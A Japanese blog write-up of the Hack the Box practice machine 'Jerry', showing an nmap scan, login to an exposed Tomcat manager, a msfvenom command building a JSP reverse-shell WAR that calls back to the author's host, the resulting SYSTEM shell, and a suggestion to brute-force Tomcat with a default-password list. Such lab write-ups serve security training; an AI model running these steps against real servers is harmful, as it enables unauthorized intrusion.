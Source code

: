 ```yaml
---
title: "【Hack the Box write-up】Jerry"
date:  "2020-05-22T15:04:05+07:00"
author:
  - "さんぽし"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-05-22 14.54.05.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/97a1b7d6-4cba-5abc-fa38-ac13aab91be3.png)

easy の中でもかなり簡単な部類です。（Hack the Box 久々なのでリハビリがてらということで…

## nmap

```
kali@kali:~$ nmap -sV -sC 10.10.10.95 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 01:49 EDT
Nmap scan report for 10.10.10.95
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.78 seconds

```

## 8080ポート見てみる

![スクリーンショット 2020-05-22 16.58.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f58acf6d-4b2f-0f5c-3519-3f88bb5cb8b2.png)

Manager App が怪しそうなので見てみます、Basic 認証が出てきますが適当に打ち込んで外しました。
![スクリーンショット 2020-05-22 17.06.37.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/03f54edf-6280-5f30-236e-c55821f4c501.png)
エラーページになんか user と password っぽいの見えてね…？

ということでキャッシュ削除して見えてた user/pass で入ると
![スクリーンショット 2020-05-22 17.09.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/670571cd-4e76-43be-5343-b6d4adf9fdaa.png)

入れました。

## msfvenom

![スクリーンショット 2020-05-22 20.19.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f61b3de0-1e3f-fb54-b875-f4fb0997ec58.png)

war をあげれそうなので msfvenom で payload 生成します

```
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=1212 -f war > paypay.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes

```
これを upload します

nc で待ち受けると…

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
一気に admin で取れちゃいました

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,919,424 bytes free
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
********************************

root.txt
********************************

```

flag も 2 つ一気に取れちゃいましたね

## 終わりに
流石に簡単でした。
今月の目標はできる限り metasploit を使わないです

## 他のwriteupみてて参考になりそうだったもの
tomcat の defaultpasslist
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
hydra とか使えば 403 ページで user/pass 見えてなくても（or 見えてることに気づかなくても）サクッと bruteforce できそう

